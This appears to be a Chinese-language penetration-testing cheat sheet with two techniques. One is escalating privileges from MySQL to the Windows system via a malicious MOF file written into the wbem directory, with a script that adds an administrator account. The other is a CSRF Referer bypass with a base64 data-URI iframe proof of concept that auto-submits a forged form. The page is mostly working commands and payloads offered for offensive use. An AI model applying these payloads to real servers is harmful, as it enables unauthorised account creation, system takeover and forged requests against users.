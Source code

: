 利用`c:/windows/system32/wbem/mof/`目录下的`nullevt.mof`文件，每分钟都会在一个特定的时间去执行一次的特性，来写入我们的`cmd`命令使其被执行。

首先将我们的`mof`提取脚本上传到可读可写目录下。接着选择`MySQL`提权项，输入已经获取的`MySQL`账户信息，并执行命令。

	select load_file(“C:/php/APMServ5.2.6/www/htdocs/1.mof”) into dumpfile “c:/windows/system32/wbem/mof/nullevt.mof”


在`mof`文件中，写入恶意代码，一般是添加用户，添加进管理员组。

	ScriptText = 
	    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admin admin /add\")"; 
	}; 

首先把`mof`文件上传，然后进行替换原始的。


__版本问题__

[windows 2008 如何来执行mof?](https://www.t00ls.net/viewthread.php?tid=30066&highlight=mof)

mof文件，在2003中直接把mof文件拖到wbem下的mof文件中，系统就会自动加载。win2008以后系统就不支持这种方式了，那么2008中是如何来加载mof文件的呢？


	03以上必须要手动编译mof，用api或mofcomp
	%windir%\system32\wbem\mofcomp -N:root\subscription mof.mof
	都需要管理员权限才能执行。
	想达到任意写转任意代码执行的效果的话，换个方式吧，08上还是有个两三种的。


[[【转载】] php写的mof提权带回显带清楚命令版本](https://www.t00ls.net/viewthread.php?tid=24989&highlight=mof)

#### CSRF绕过 Referer

[CSRF - 空Referer绕过](http://www.cnblogs.com/huangjacky/p/4109096.html)

[CSRF 花式绕过Referer技巧](https://www.ohlinge.cn/web/csrf_referer.html)

__Referer为空的情况下__

常见的协议：`ftp://,http://,https://,file://,javascript:,data`

在本地打开一个HTML页面，这个时候浏览器地址栏是`file://`开头，如果这个HTML页面向任何http站点提交请求的话，这些Referer都是空的，接下来用data:协议来构造一个自动提交的CSRF攻击。

假设 `http://a.b.com/d `这个接口存在空Referer绕过的CSRF。POC

	<html>
    <body>
       <iframe src="data:text/html;base64,PGZvcm0gbWV0aG9kPXBvc3QgYWN0aW9uPWh0dHA6Ly9hLmIuY29tL2Q+PGlucHV0IHR5cGU9dGV4dCBuYW1lPSdpZCcgdmFsdWU9JzEyMycvPjwvZm9ybT48c2NyaXB0PmRvY3VtZW50LmZvcm1zWzBdLnN1Ym1pdCgpOzwvc2NyaXB0Pg==">
    </doby>
	</html>


iframe的src为

	<form method=post action=http://a.b.com/d><input type=text name='id' value='123'/></form><script>document.forms[0].submit();</script>


